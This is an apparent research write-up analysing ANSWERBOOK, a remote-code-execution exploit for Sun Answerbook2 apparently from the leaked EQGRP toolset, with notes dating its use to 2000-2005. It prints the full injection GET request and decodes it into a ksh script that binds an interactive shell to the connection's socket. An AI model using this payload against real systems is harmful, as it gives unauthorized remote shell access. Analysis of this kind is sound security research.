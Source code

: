### [Home](https://CybernetiX-S3C.github.io)   [Main](https://CybernetiX-S3C.github.io/main)
[![Github all releases](https://img.shields.io/github/downloads/Naereen/StrapDown.js/total.svg)](https://GitHub.com/CybernetiX-S3C/ISPpScan/)
[STOIC SURGEON](https://CybernetiX-S3C.github.io/main/stoicsurgeon)
[RESEARCH](https://CybernetiX-S3C.github.io/main/stoicsurgeon/research)
[CONTRIBUTING](https://CybernetiX-S3C.github.io/main/stoicsurgeon/contrib)
[ABOUT](https://CybernetiX-S3C.github.io/main/stoicsurgeon/about)

# ANSWERBOOK

ANSWERBOOK is an RCE exploit for Sun Answerbook2. Given the software and the opsnotes, it's likely that this exploit was used around 2000-2005.

According to [abopscript.txt](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/abopscript.txt) it will trigger a shell using the following HTTP GET command:
```
GET /ab2/@LegacyPageView?ps=`echo%20"\%0A(/bin/ksh<<\%2B%0As=63%0Awhile%20[%20ABC%20-gt%208%20]%0Ado%0A[[%20-S%20/dev/fd/ABC%20]]%20%26%26%20break%0A((s=ABC-1))%0Adone%0A[%20ABC%20-gt%208%20]%20%26%26%20exec%20sh%20-i%20</dev/fd/ABC%20>%20/dev/fd/ABC%202>%261%20%26%0A%2B%0A)2>/dev/null%26%0A"%20|%20sed%20's/ABC/$s/g'%20|%20sh` HTTP/1.0
```

Cleaning up the command a bit:
```
echo "\
(/bin/ksh<<\+
s=63
while [ ABC -gt 8 ]
do
[[ -S /dev/fd/ABC ]] && break
((s=ABC-1))
done
[ ABC -gt 8 ] && exec sh -i </dev/fd/ABC > /dev/fd/ABC 2>&1 &
+
)2>/dev/null&
" | sed 's/ABC/$s/g' | sh
```

Cleaning it even more, it runs this command using `sh`:
```
(/bin/ksh<<\+
	s=63
	while [ $s -gt 8 ]
	do
		[[ -S /dev/fd/$s ]] && break
		((s=$s-1))
	done
	[ $s -gt 8 ] && exec sh -i </dev/fd/$s > /dev/fd/$s 2>&1 &
+
)2>/dev/null &
```

The `<<\+` until the `+` is a HEREDOC, essentially executing the commands with `/bin/ksh`. It will find a find a filedescriptor (bigger than 8) that is a socket and redirect the input and output to a shell, giving the Operator a shell.

## Reason for 2000-2005

Above, I vaguely mention that according to the opsnotes and software, the exploit was used in the period of 2000-2005. The reasons for this are:

* `/tmp/.X11R6`: as "work" folder for an Operation.
* The use of nosy
